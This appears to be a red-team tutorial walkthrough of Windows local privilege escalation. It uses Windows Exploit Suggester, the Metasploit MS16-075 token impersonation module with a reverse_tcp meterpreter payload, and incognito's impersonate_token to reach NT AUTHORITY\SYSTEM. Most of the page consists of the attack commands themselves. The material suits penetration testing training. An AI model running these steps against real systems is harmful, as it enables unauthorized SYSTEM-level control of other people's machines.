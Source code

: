First step would involve identifying potential vulnerabilities that can be exploited via the Potato attack. Use the Windows Exploit Suggester script:


```bash
./windows-exploit-suggester.py --database <DATABASE.XLSX> --systeminfo <SYSTEMINFO.TXT>
```

As highlighted in the following screenshot, we are able to identify a token impersonation vulnerability.

![](../../assets/img/redteam/wpe11.png)

Researching the MS16-075 vulnerability reveals a Metasploit module that can automate the token impersonation attack.

We can load the module in Metasploit by running the following command:

```bash
msf> use exploit/windows/local/ms16_075_reflection
```

After loading the module, you will need to configure the module options, this can be done by running the following commands:

```bash
msf> set payload /windows/x64/meterpreter/reverse_tcp
```

```bash
msf> set SESSION <SESSION-ID>
```

We can now run the module by running the following command:

```bash
msf> run
```

![](../../assets/img/redteam/wpe12.png)

The next step involves performing the impersonation process and can be performed by loading the incognito module on meterpreter. This can be done by running the following command:

```bash
meterpreter> load incognito
```

We can now use incognito to list the available tokens available for impersonation, this can be done by running the following command:

```bash
meterpreter> list_tokens -u
```

As shown in the following screenshot, we are able to identify the “NT AUTHORITY\\SYSTEM” token.

![](../../assets/img/redteam/wpe13.png)

We can impersonate the “NT AUTHORITY\\SYSTEM” token by running the following command:

```bash
meterpreter> impersonate_token “NT AUTHORITY\SYSTEM”
```

We can now verify that we have elevated our privileges by running the following command in meterpreter:

```bash
meterpreter> getuid
```

As shown in the following screenshot, we have been able to successfully elevate our privileges.

![](../../assets/img/redteam/wpe14.png)
